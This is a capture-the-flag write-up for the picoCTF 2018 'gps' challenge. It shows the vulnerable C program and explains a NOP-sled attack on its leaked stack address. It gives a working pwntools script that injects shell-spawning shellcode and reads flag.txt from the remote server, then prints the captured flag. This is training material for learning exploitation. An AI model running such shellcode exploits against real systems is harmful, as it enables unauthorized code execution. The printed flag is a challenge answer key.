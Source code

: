 # Problem
You got really lost in the wilderness, with nothing but your trusty [gps](https://2018shell1.picoctf.com/static/9c6c7d4d93c2157acac968595e051244/gps). Can you find your way back to a shell and get the flag? Connect with ```nc 2018shell1.picoctf.com 58896```. ([Source](https://2018shell1.picoctf.com/static/9c6c7d4d93c2157acac968595e051244/gps.c)).

## Hints:
Can you make your shellcode randomization-resistant?

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/9c6c7d4d93c2157acac968595e051244/gps
wget https://2018shell1.picoctf.com/static/9c6c7d4d93c2157acac968595e051244/gps.c
chmod +x ./gps
```

Lets take a look at the source:
```c
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define GPS_ACCURACY 1337

typedef void (fn_t)(void);

void initialize() {
    printf("GPS Initializing");
    for (int i = 0; i < 10; ++i) {
        usleep(300000);
        printf(".");
    }
    printf("Done\n");
}

void acquire_satellites() {
    printf("Acquiring satellites.");
    for (int i = 0; i < 3; ++i) {
        printf("Satellite %d", i);
        for (int j = 0; j < rand() % 10; ++j) {
            usleep(133700);
            printf(".");
        }
        if (i != 3) {
            printf("Done\n");
        } else {
            printf("Weak signal.\n");
        }
    }

    printf("\nGPS Initialized.\n");
    printf("Warning: Weak signal causing low measurement accuracy\n\n");
}

void *query_position() {
  char stk;
  int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
  void *ret = &stk + offset;
  return ret;
}


int main() {
    setbuf(stdout, NULL);

    char buffer[0x1000];
    srand((unsigned) (uintptr_t) buffer);

    initialize();
    acquire_satellites();

    printf("We need to access flag.txt.\nCurrent position: %p\n", query_position());

    printf("What's your plan?\n> ");
    fgets(buffer, sizeof(buffer), stdin);

    fn_t *location;

    printf("Where do we start?\n> ");
    scanf("%p", (void**) &location);

    location();
    return 0;
}
```

```query_position()``` gives us the address of the local ```stk``` (in other words, pointer neer the top of the stack) with an offset of +- ```1337 / 2```.
After that, we can send a buffer and an address which will be executed.

The strategy is to send a shellcode (with a [NOP sled](https://en.wikipedia.org/wiki/NOP_slide)) for the buffer, and the address we recieved from ```query_position()``` as the location. If we got lucky (which is highly probable), we will hit the NOP sled and our shellcode will be executed.

Code:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''

context.arch = 'amd64'

if debug:
  p = process('./gps')
else:
  p = remote('2018shell1.picoctf.com', 58896)

lines = p.recvuntil('>').split('\n')

print '\n'.join(lines)

current_position = lines[-3].split(':')[1].strip()
log.info('Current position: {}'.format(current_position))

log.info('Sending shellcode')
p.sendline("\x90" * 900 + asm(shellcraft.sh()))

print p.recvuntil('>')

location = int(current_position[2:], 16)

log.info('Sending position 0x{:x}'.format(location))
p.sendline('0x{:x}'.format(location))

if debug:
  p.sendline('ls')
else:
  p.sendline('cat flag.txt')
  p.sendline('exit')

print p.recvall()
```

The output (when got lucky):
```bash
[+] Opening connection to 2018shell1.picoctf.com on port 58896: Done
GPS Initializing..........Done
Acquiring satellites.Satellite 0..Done
Satellite 1Done
Satellite 2...Done

GPS Initialized.
Warning: Weak signal causing low measurement accuracy

We need to access flag.txt.
Current position: 0x7ffef4b79b4b
What's your plan?
>
[*] Current position: 0x7ffef4b79b4b
[*] Sending shellcode
 Where do we start?
>
[*] Sending position 0x7ffef4b79b4b
[+] Receiving all data: Done (53B)
[*] Closed connection to 2018shell1.picoctf.com port 58896
 picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_gfjdcwma}
```

Flag: picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_gfjdcwma}